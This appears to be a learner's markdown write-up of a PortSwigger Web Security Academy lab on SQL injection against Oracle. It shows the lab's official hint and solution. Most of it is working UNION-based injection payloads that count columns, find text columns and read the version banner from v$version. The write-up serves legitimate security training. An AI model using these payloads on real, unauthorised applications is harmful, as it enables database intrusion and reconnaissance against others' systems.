


# Lab: SQL injection attack, querying the database type and version on Oracle

[Lab: SQL injection attack, querying the database type and version on Oracle | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.


- 💡Hint
    
    On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
    
    There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`
    
    For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
    

# Common Attack Payload

```sql
'--
```


# Identify the Number of Columns

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--

'ORDER BY 1--
```




<aside>
💡 There are only 2 columns

</aside>

# Identify a String Data Type

```sql
'UNION SELECT 'a','a' FROM dual--
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```

# Retrieve Database Information with `UNION`

```sql
'UNION SELECT NULL, banner FROM v$version--
```



# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to display the database version: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

## Community Solutions

Rana Khalil

[SQL Injection - Lab #7 SQL injection attack, querying the database type and version on Oracle](https://youtu.be/s0dFU2dKAKU)

Michael Sommer

[SQL injection attack, querying the database type and version on Oracle (Video solution, Audio)](https://youtu.be/4sg7ur5Yptk)

